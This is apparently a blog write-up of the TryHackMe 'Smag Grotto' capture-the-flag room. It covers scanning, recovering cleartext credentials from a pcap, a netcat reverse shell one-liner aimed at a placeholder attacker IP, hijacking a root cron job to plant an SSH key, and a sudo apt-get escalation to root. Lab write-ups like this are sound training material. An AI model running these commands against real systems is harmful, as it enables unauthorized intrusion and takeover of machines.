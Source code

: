```yaml
---
layout: post
title: "Smack Grotto - TryHackMe"
comments: true
description: "Writeup for TryHackMe's Smack Grotto"
tags: "TryHackMe CTF Writeups Linux"
---
```

## Happy Hacking!  
![alt text](https://i.imgur.com/1n5m1aa.png)   
TryHackMe Easy [Room](https://tryhackme.com/room/smaggrotto)

## Nmap Scan
We will discover port 22 and 80 are open.   
```bash
PORT      STATE    SERVICE        REASON      VERSION
22/tcp    open     ssh            syn-ack     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 74:e0:e1:b4:05:85:6a:15:68:7e:16:da:f2:c7:6b:ee (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDORe0Df8XvRlc3MvkqhpqAX5/sbUoEiIckKSVOLJVmWb9jOq2r0AfjaYAAZzgH9RThlwbzjGj6r4yBsXrMFB01qemsYBzUkut9Q12P+uly9+SeL6X7CUavLnkcAz0bzkqQpIFLG9HUyu9ysmZqE1Xo6NumtNh3Bf4H1BbS+cRntagn1TreTWJUiT+s7Gr9KEIH7rQUM8jX/eD/zNTKMN9Ib6/TM7TkPxAnOSw5JRfTV/oC8fFGqvjcAMxlhqS44AL/ZziI50OrCX9rMKtjZuvPaW2U31Sr8nUmtd3jnJPjMH2ZRfeRTPybYOblPOZq5lV2Fu4TwF/xOv2OrACLDxj5
|   256 bd:43:62:b9:a1:86:51:36:f8:c7:df:f9:0f:63:8f:a3 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBN6hWP9VGah8N9DAM3Kb0OZlIEttMMjf+PXwLWfHf0dz6OtdbrEjblgrck0i7fT95F1qdRJHtBdEu5yg4r6/gkY=
|   256 f9:e7:da:07:8f:10:af:97:0b:32:87:c9:32:d7:1b:76 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIPWHQ800Vx/X5aGSIDdpkEuKgFDxnjak46F/IsegN2Ju
80/tcp    open     http           syn-ack     Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Smag
```

## Web Enum
- Gobuster 
By running gobuster we will find `/mail` directory
    ```bash
    =====================================================
    Gobuster v2.0.1              OJ Reeves (@TheColonial)
    =====================================================
    [+] Mode         : dir
    [+] Url/Domain   : http://smag.thm/
    [+] Threads      : 10
    [+] Wordlist     : /opt/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt
    [+] Status codes : 200,204,301,302,307,403
    [+] Timeout      : 10s
    =====================================================
    2020/07/30 10:18:48 Starting gobuster
    =====================================================
    /mail (Status: 301)
    ```
Going to `/mail` will give us access to a conversation that includes a `.pcap` file.   
- The page
![alt text](https://i.imgur.com/Hf7abh7.png)   

## Wireshark
Taking a good look at the traffic, we can find an HTTP Post request to development.smag.thm/login.php. In the packet, we can see the username and pass in clear text.   
![alt text](https://i.imgur.com/mysFlTm.png)   
with the credential, we can go to `development.smag.thm` and try to get access to `/admin.php`.   


## Getting In
Add development.smag.thm to your `/etc/hosts` and access it through browser.   
- /etc/hosts
    ```bash
    127.0.0.1	localhost
    127.0.1.1	reza-HP-Spectre
    172.16.122.129	hekerendonesa
    10.10.228.117	smag.thm	development.smag.thm < ----
    10.10.70.17	windcorp.thm	fire.windcorp.thm
    172.16.122.130	nugroho-server
    ```
- Acessing `development.smag.thm`   
![alt text](https://i.imgur.com/2rWGPce.png)   
log in with credential we get from the `.pcap` file and we will be redirected to `admin.php`   
![alt text](https://i.imgur.com/3lUPoZp.png)   
Here we have a web shell that will not print out the output of the command, so we can just execute a reverse shell command   
`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <YOUR_IP> <PORT> >/tmp/f`   
And we will have access to the machine as `www-data`   
![alt text](https://i.imgur.com/QDnuKv9.png)

## Getting Access to Jake
- Enum
I tried to use [linpeas](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS) to find Priv Esc vector and found that there is an interesting cronjob.   
    ```bash
    SHELL=/bin/sh
    PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin
    
    # m h dom mon dow user	command
    17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
    25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
    47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
    52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
    *  *    * * *   root	/bin/cat /opt/.backups/jake_id_rsa.pub.backup > /home/jake/.ssh/authorized_keys <--- We can abuse this
    ```
from that, we know that we can change the content of `/opt/.backups/jake_id_rsa.pub.backup` from jake's public key to our public key.   
After changing that, we can access jake's account with no password.   
![alt text](https://i.imgur.com/WgpnqsN.png)   

## Getting to Root
From the moment i get access to user `jake`, the first thing i tried is to check jake's sudo privilege with the command `sudo -l`.  
And here's what i got 
```bash
jake@smag:~$ sudo -l
Matching Defaults entries for jake on smag:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jake may run the following commands on smag:
    (ALL : ALL) NOPASSWD: /usr/bin/apt-get
```
So just go to [GTFOBins](https://gtfobins.github.io/) and find `apt-get`   
![alt text](https://i.imgur.com/qd1AJlB.png)   
Just run `sudo apt-get update -o APT::Update::Pre-Invoke::=/bin/sh` and you will get root shell.   
![alt text](https://i.imgur.com/4dXK1YU.png)

